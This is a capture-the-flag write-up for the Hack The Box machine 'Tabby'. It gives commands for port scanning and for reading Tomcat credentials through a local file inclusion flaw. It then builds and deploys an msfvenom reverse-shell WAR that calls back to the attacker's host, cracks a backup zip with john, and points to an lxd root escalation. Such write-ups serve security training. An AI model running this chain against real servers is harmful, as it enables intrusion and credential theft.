

# [Tabby](https://app.hackthebox.com/machines/tabby)

```bash
nmap -p- --min-rate 10000 10.10.10.194 -Pn
```


```bash
nmap -sC -sV -A -p22,80,8080 10.10.10.194 -Pn
```


After we enumerating web application, we find LFI on port 80 that we have application.

There is file called 'news.php' that have parameter 'file' that we include file here what we want.


We know that tomcat user's credentials are stored below location while running from root location.



Another location is possible that '/usr/share/tomcat9/etc/tomcat-users.xml'

Let's read this file via LFI vulnerability.


We grab credentials from here.

tomcat:$3cureP4s5w0rd123!


Let's learn what we have access via 'tomcat' user.

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```


Let's upload maliicous reverse (.war) file into application.


Let's generate reverse shell first,
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=1337 -f war -o dr4ks.war
```


Let's upload malicious reverse shell file into application.

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/dr4ks --upload-file dr4ks.war
```


Now, it's time to open listener, then browse the page '/dr4ks'.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


After making enumeration, I find '/var/www/html/files' directory that have interesting '16162020_backup.zip' file. Let's upload this into our machine.


Then , we got what we want.


After getting file, let's try to crack this.

1. First convert into john (hash) via `zip2john 16162020_backup.zip > hash.txt` tool.
2. ```bash john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```


We find password that equals to 'admin@it'.


There's double use for password for 'ash' user.


ash: admin@it

user.txt


I enumerate this user and find that user belongs 'lxd' group.


I find most interesting and useful [exploit](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1)


root.txt

